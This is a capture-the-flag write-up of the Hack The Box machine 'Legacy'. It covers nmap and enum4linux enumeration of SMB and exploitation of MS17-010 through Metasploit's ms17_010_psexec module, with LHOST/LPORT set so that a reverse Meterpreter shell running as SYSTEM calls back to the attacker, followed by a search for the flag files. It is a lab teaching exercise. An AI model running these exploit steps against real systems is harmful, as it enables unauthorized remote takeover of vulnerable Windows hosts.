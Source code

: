 # Legacy Write-Up (English Version)
This is my write-up about **Legacy** which is an active Windows machine on **Hack The Box** having the IP Address `10.10.10.4`.

![[legacy-card.png]]

## Target Enumeration

### Nmap Initial Scan
---

I first started by doing my usual type of `Nmap` scan, which is a SYN scan, scanning for service version and running the default `NSE script` of `Nmap` 

Note : SYN scan require you to perform the command as `root`

```
 sudo nmap -sSVC -p- 10.10.10.4 -oA nmap/nmap_initial_scan.log
```

![[nmap-scan.png]]

<br>

### Nmap Vuln Scan
---

After the scan result, we can see that we only have ports open on some SMB services from windows. So I decided to run a vulnerability scan with `Nmap` to see if the SMB services are exploitable.

```
sudo nmap -script vuln -p- 10.10.10.4 -oA nmap/nmap_vuln_scan.log
```

![[nmap-vuln.png]]

We can see that the SMB ports seems to be vulnerable to `ms17-010`, which is good to know so let keep this in mind.

<br>

### Enum4linux
---

When I'm dealing with SMB shares, I usually like run tool like `enum4linux` which can enumerate all the share on a given host and can also do stuff like gathering password policy, enumerate username, etc...

```
┌──(op㉿kali)-[~/htb/Legacy]
└─$ enum4linux -A 10.10.10.4
Unknown option: A
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Sep  7 19:27:45 2021
...
 ================================================== 
|    Enumerating Workgroup/Domain on 10.10.10.4    |
 ================================================== 
[+] Got domain/workgroup name: HTB

 ========================================== 
|    Nbtstat Information for 10.10.10.4    |
 ========================================== 
Looking up status of 10.10.10.4
	LEGACY          <00> -         B <ACTIVE>  Workstation Service
	HTB             <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
	LEGACY          <20> -         B <ACTIVE>  File Server Service
	HTB             <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
	HTB             <1d> -         B <ACTIVE>  Master Browser
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser

	MAC Address = 00-50-56-B9-26-64

...

 ===================================================================== 
|    Users on 10.10.10.4 via RID cycling (RIDS: 500-550,1000-1050)    |
 ===================================================================== 
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.

 =========================================== 
|    Getting printer info for 10.10.10.4    |
 =========================================== 
No printers returned.


enum4linux complete on Tue Sep  7 19:27:57 2021
```

We got two shares that we can possibly log in to with `anonymous` account, so let's try that.

<br>

## Abusing SMB shares
---

That was good to check, but unfortunately I can't seem to be able to login, the connection closed right after it succeed logging is as `anonymous`

![[smb-anonymous.png]]

<br>

## Metasploit 

### Msfconsole
---

So since we can't access the share manually, let's check for `ms17-010` in `msfconsole`

```
msfconsole
```

![[msfconsole.png]]

Here we want to search for `ms17-010` vulnerability, so we only need to ask our good friend `Metasploit`.

```
msf6 > search ms17-010
```

![[search-exploit.png]]

And we can see four results coming up, for this case I will take the second one, since it is not EternalBlue which often fails. We can choose the exploit by typing this in `msfconsole` prompt: 

```
msf6 > use 1
```

We can also type `options` to see the list of options that we can edit in our exploit before sending it to the target machine. In our case we only need to modify three variables: 
 - `LHOST`
 -  `LPORT` 
 -  `RHOSTS`

So let's set the three variables and send the exploit to our target.

```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.4
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST [YOUR_IP]
msf6 exploit(windows/smb/ms17_010_psexec) > set LPORT [YOUR_PORT]
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```

And we got ourselves a sweet `meterpreter` shell. We can type `getuid` to know which user we are. As we can see here, we are already `NT AUTHORITY/SYSTEM`.

![[meterpreter.png]]

<br>

### Meterpreter Session
---

So let's spawn an OS shell on the target and search for both `root.txt` and `user.txt`.
To do that just go to the root of `C:\` and type the following command :

```
dir /s/b [YOUR_FILE]
```

![[proof.png]]

Only need to gather the flag within the files, and we are now done with this box that we have just owned.